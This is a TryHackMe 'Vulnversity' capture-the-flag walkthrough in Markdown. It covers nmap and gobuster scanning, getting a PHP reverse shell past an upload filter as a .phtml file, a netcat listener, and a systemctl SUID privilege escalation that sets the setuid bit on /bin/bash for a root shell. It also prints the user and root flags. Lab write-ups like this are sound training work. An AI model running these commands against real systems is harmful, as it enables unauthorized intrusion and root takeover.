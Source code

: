# Vulnversity

```bash
export IP=10.10.117.102
```

## Scans

### Nmap

Command:
```bash
nmap -sC -sV -oN nmap/initial $IP
```

Open Ports Found:
```
21 -- ftp
22 -- ssh
139 -- samba
445 -- samba
3128 -- http-proxy squid 3.5.12
3333 -- webserver
```

### Gobuster

Directories Found:
```
/images -- nothing useful
/css
/js
/fonts
/internal -- upload page
```

## Upload Page Exploit

`.php` not allowed but `.phtml` is allowed

A reverse shell .php can be downloaded from the [PentestMonkey Github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

don't forget to change IP to host `tun0 ip` and new port

rename `php-reverse-shell.php` to `revshell.phtml` and upload it

setup NetCat listening port:
```bash
nc -lnvp 9001
```

visit `http:10.10.117.103:3333/internal/uploads/revshell.phtml`

Reverse shell achieved

**User Name Found**: `bill`

**User Flag Found**: `8bd7992fbe8a6ad22a63361004cfcedb`


## PrivEsc

Command: to look for SUID privilege
```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

or

```bash
find / -perm -400 2>/dev/null
```

shows `/bin/systemctl`, which isn't normal

searching for `systemctl` on [gtfoBins](https://gtfobins.github.io/gtfobins/systemctl/)

and modifying it to be:
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

this command gives `/bin/bash` elevated privilege

now, running:
```bash
bash -p
```

gives us a root shell

**Root Flag Found**: `a58ff8579f0a9270368d33a9966c7fd5`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
